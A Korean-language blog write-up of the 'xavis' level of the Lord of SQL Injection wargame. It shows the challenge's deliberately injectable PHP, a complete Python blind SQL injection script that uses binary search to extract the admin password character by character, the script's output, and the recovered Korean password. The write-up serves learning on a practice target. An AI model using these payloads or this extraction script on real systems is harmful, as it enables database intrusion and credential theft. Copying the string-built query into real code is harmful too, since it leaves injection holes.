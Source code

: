 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - xavis 문제풀이"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


아 이거 너무 오래 고민했는데 너무 허무하다.  

내가 마블 영화에서 젤 좋아하는게 아이언맨이고 그 중에서도 좋아하는게 자비스 캐릭터였는데, 이 문제때문에 싫어질라고 했다.  

근데 어찌어찌 풀었는데 나한테 화가난다 ㅋㅋㅋㅋ  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------------------------------------------------------
query : select id from prob_xavis where id='admin' and pw=''
---------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

일단 소스코드는 간단하다.  

보면 `regex`랑 `like`은 사용을 못하도록 되어있는데, 그거 외에 `'`, `"`, `=`, `and`, `or`에 필터링이 없다.  

그래서 처음엔 그냥 `Blind SQL Injection`인줄 알고 이 전에 사용했었던 소스코드를 가져와 돌려보았다.  

그런데 `length`는 `12`라고 나오는데, 막상 `pw`는 `4번째` 문자부터만 찾았다.  

거기다 4번째 문자 ~ 12번째 문자까지가 싹 다 `0`이 나왔다.  

뭔가 이상하다 싶어서 `ord`랑 부등호를 사용해서 첫 번째 글자를 대충 손으로 찾아 보았다.  

그랬더니 값이 무려 `50000`대가 나왔다.  

`hex`로 값을 바꾸어 보니 `0xc6b0`이 나왔는데, 보니까 우리가 일반적으로 사용하는 아스키코드 범위 내의 문자가 아닌 것 같았다.  

그래서 원래 소스코드에서 `48 ~ 127`까지 비교하던 값을 `0x0 ~ 0xffff` 즉,  `0 ~ 65536`까지로 바꾸었다.  

첨엔 이렇게 소스코드 짜고 돌리려고 했는데, 생각해보니 최악의 경우 `0 ~ 65536`까지 `12번`을 비교해야 한다.  

뭔가 서버가 터질까봐 두려워서 횟수를 줄일 수 있는 방법을 찾다가 갑자기 학교 다닐때 배웠던 `이진 탐색`이 생각났다.  

그래서 이 `이진 탐색(Binary Search)` 알고리즘을 사용해서 아래와 같이 소스코드를 구현했다.  

```python
import urllib2
import urllib
import requests

def testEqual(j, num):
        try:
                query = url + "1' or id='admin' and ord(substr(pw, " + str(j) + ", 1)) = " + str(num) + "%23"
                r = requests.post(query, cookies=session)
        except:
                print "[-] Error occur"
        
        if 'Hello admin' in r.text:
                return True
        else:
                return False

def testBigger(j, num):
        try:
                query = url + "1' or id='admin' and ord(substr(pw, " + str(j) + ", 1)) < " + str(num) + "%23"
                r = requests.post(query, cookies=session)
        except:
                print "[-] Error occur"
        
        if 'Hello admin' in r.text:
                return True
        else:
                return False

def searchPw(j, start, end):
        if start > end:
                return "None"

        mid = (start + end) / 2

        if testEqual(j, mid):
                return hex(mid)
        elif testBigger(j, mid):
                end = mid - 1
        else:
                start = mid + 1

        return searchPw(j, start, end)
               
flag = "0x"
length = 0

url = "http://los.rubiya.kr/xavis_04f071ecdadb4296361d2101e4a2c390.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
        try:
                query = url + "1' or id='admin' and length(pw)=" + str(i) + "%23"
                r = requests.post(query, cookies=session)
        except:
                print "[-] Error occur"
                continue

        if 'Hello admin' in r.text:
                length = i
                break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
        flag += str(searchPw(j, 0, 65535))[2:]
        print "[+] Found ", str(j), "'s pw : ", flag

print "[+] Found password : ", flag
print "[+] End"
```

이 소스코드를 돌리면 결과는 아래와 같이 나온다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  12
[+] Find password
[+] Found  1 's pw :  0xc6b0
[+] Found  2 's pw :  0xc6b0c655
[+] Found  3 's pw :  0xc6b0c655ad73
[+] Found  4 's pw :  0xc6b0c655ad730
[+] Found  5 's pw :  0xc6b0c655ad7300
[+] Found  6 's pw :  0xc6b0c655ad73000
[+] Found  7 's pw :  0xc6b0c655ad730000
[+] Found  8 's pw :  0xc6b0c655ad7300000
[+] Found  9 's pw :  0xc6b0c655ad73000000
[+] Found  10 's pw :  0xc6b0c655ad730000000
[+] Found  11 's pw :  0xc6b0c655ad7300000000
[+] Found  12 's pw :  0xc6b0c655ad73000000000
[+] Found password :  0xc6b0c655ad73000000000
[+] End
```

4번째부터는 `0`이 나오는 걸 보니, 실제로는 3글자인 것 같았다.  

여기까진 어렵지 않게 왔는데, 문제는 지금부터였다.  

딱봐도 그냥 아스키코드는 아니고 확장 아스키코드인가 싶어서 인터넷을 뒤져서 `Converter`에 돌려 보았었다.  

막 다 이상한 문자만 출력 해 주길래 그게 맞는건줄 알고 계속 시도했다.  

근데 아무리 해도 안됨ㅋ  

매일매일 뭐가 잘못된건지 뒤져보는데 아무리봐도 모르겠어서 며칠동안 `내가 코드를 잘못짰나`, 아니면 `변환기를 잘못 사용했나` 해서 진짜 사이트 여기저기 돌아다니면서 `Converter`를 사용 했었다.  

그러다가 며칠만에 오늘... 이 [사이트](https://www.branah.com/unicode-converter)를 발견했다.  

여기 아래 부분에 보면 `Decimal`이라고, 10진수로 값을 입력하는 곳이 있다.  

그 칸에 나온 글자 3개의 `hex` 값을 `10진수`로 바꾸어 입력 해 주었다.  

```
508645077344403

OR

50864 50773 44403
```

그랬더니 맨 위 칸에 `우왕굳`이라고 나왔다.  

ㅋ  

결국 한글이었다.  

난 그것도 모르고 변환기가 이상한 문자를 주길래 걔인가 해서 며칠동안 걔만 시도했는데 아니었다.  

왜 그 사이트에서는 이상한 문자로 준건지를 모르겠다.  

`hex`로 입력했을 때랑 `decimal`로 입력했을 때랑 다른 값을 주는건가...?  

그럴리가..  

어쨌든 왜 제대로 변환이 안됬는지 원인은 모르겠지만, `우왕굳`을 입력 해 주니 며칠간의 삽질을 끝낼 수 있었다.  

```
?pw=우왕굳
```

```php
----------------------------------------------------------------------------------------
query : select id from prob_xavis where id='admin' and pw='우왕굳'
----------------------------------------------------------------------------------------

Hello admin
XAVIS Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

`XAVIS Clear!!`
